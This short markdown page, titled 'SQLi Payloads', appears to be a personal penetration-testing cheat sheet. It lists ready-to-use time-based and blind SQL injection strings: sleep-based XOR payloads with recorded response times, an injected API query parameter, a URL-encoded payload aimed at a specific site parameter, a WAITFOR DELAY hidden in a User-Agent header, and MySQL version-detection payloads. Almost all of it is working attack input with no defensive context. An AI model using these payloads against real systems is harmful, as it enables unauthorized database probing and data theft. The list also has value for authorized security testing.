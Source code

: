 ```yaml
---
title: "SQLi Payloads"
---
```


More examples might be avilable on [netspi](https://sqlwiki.netspi.com)

**Classical Sleep:**

```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 20.002
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.282
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.912
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 16.553
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.463
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 1.229
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.79
/api/tweets?city_id=(select(0)from(select(sleep(25)))v)
’) AND 1234=(SELECT (CASE WHEN (1234=1234) THEN 1234 ELSE (SELECT 4376 UNION SELECT 4107) END))--+

type=sharesCountTw&url=http%3a%2f%2finsideok.ru%2flica&count=-1+or+1%3d((SELECT+1+FROM+(SELECT+SLEEP(25))A))

SQL in useragent:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36';WAITFOR DELAY ‘00:00:05’;--
```

**Blind SQL Injection:**

```
# sleep on mysql 4.*
1' AND CASE (SUBSTRING(VERSION(), 1, 1)) WHEN 4 THEN SLEEP(10) ELSE NULL END AND '1

# sleep on mysql 5.*
1' AND CASE (SUBSTRING(VERSION(), 1, 1)) WHEN 5 THEN SLEEP(10) ELSE NULL END AND '1
```

{{< gist duraki 7b4744e7129fe61655a1c8384c76952f >}}
